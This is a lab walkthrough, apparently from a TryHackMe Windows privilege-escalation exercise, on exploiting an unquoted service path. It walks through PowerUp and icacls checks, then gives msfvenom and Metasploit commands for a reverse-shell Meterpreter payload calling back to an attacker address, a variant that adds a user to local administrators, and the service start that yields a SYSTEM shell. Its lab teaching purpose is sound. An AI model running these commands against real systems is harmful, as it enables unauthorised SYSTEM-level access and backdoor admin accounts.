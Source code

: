 # Unquoted Service Path

When the executable path for a service contains spaces and is not enclosed in quotes, the potential exists for privilege escalation (to the privilege level running the service). This requires permission to write to a directory in the (broken) executable path that will be called when the service is loaded.

## Step 1: Detection

Begin by running PowerUp.ps1

```bash
C:\Users\user\Desktop\Tools\PowerUp> powershell -ep bypass
PS C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks
```

![powerup](images/powerup.png)

We can utilize `icacls` to determine the best directory to place the exploit, working in the following order:

- C:\Program( Files)
- C:\Program Files\Unquoted( Path Service)
- C:\Program Files\Unquoted Path Service\Common( Files)

```bash
C:\Users\user> icacls "C:\Program Files"
// No go

C:\Users\user> icacls "C:\Program Files\Unquoted Path Service"
// Located (F) permission for BUILTIN\Users

```

![icacls](images/icacls.png)

Since we have write permissions to "C:\Program Files\Unquoted Path Service" we should be able to place an executable in that directory named “common.exe” which will execute before the application attempts to load “unquotedservice.exe” in the "C:\Program Files\Unquoted Path Service\Common Files" directory.

## Step 2: Exploitation

Start a Meterpreter multi handler

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Create reverse shell payload with `MSFvenom`

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.48.44 LPORT=4444 -f exe -o common.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: common.exe
```

Note: the payload could have also be set to add `user` to the `administrators` local group

```bash
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

Upload the payload to the target machine

![download](images/download.png)

Place in the “C:\Program Files\Unquoted Path Service\” directory

![save](images/save.png)

Now we can start the service and get a reverse shell

```bash
C:\Users\user> sc start unquotedsvc
```

![start](images/start.png)

![save](images/save.png)

Note: we get the shell as SYSTEM but the shell dies right away. We need to migrate the shell first.
